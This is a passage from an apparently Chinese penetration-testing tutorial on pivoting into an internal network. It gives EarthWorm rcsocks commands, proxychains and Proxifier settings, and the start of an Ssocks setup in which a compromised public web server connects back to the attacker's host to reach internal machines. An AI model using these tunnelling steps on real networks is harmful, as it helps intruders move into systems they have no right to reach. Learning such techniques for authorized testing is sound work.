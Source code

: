 


**我们主机的设置**



```
如果是Linux系统：      
./ew_for_linux64 -s rcsocks -l 1080 -e 8888  #将本机的8888端口的流量都转发给1080端口，这里8888端口只是用于传输流量      
然后配置proxychains代理链的配置文件，将代理设置成 127.0.0.1的1080端口：socks5 127.0.0.1 1080       
然后命令前面加上 proxychains即可。如：proxychains curl 192.168.10.19       
如果是Windows系统      
ew_for_Win.exe -s rcsocks -l 1080 -e 8888   #将本机的8888端口的流量都转发给1080端口，这里8888端口只是用于传输流量      
然后浏览器中设置代理为 100.100.10.12的1080端口，或者利用  Proxifier 、sockscap64 设置全局代理
```




Ssocks正向代理(Linux)

-----------------



Ssocks是Linux下一款socks代理工具套装，可用来开启socks代理服务，Ssocks支持socks5验证，支持ipv6和UP，并提供反向socks代理服务。但是由于Ssocks不稳定，所以不建议使用。



现在有这么一个环境，我们获取到了位于公网Web服务器的shell，该web服务器是Linux系统，内网中存在另外一台主机，这里假设内网存在一台Web服务器。然后，我们现在要将公网Web服务器设置为代理，访问和探测内网Web服务器的信息。



首先，我们的主机和公网的Web服务器都得安装上Ssocks。



安装Ssocks的话，直接安装包安装，软件会被安装在 /usr/local/bin目录下，所以我们得去该目录执行命令。



![](https://img-blog.csdnimg.cn/20181127202428306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**正向代理** 



**Web服务器的操作**



```
./rssocks -vv -s 100.100.10.13:9999   #接收100.100.10.13的9999端口的流量
```




![](https://img-blog.csdnimg.cn/20181127202323477.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**我们主机的操作**

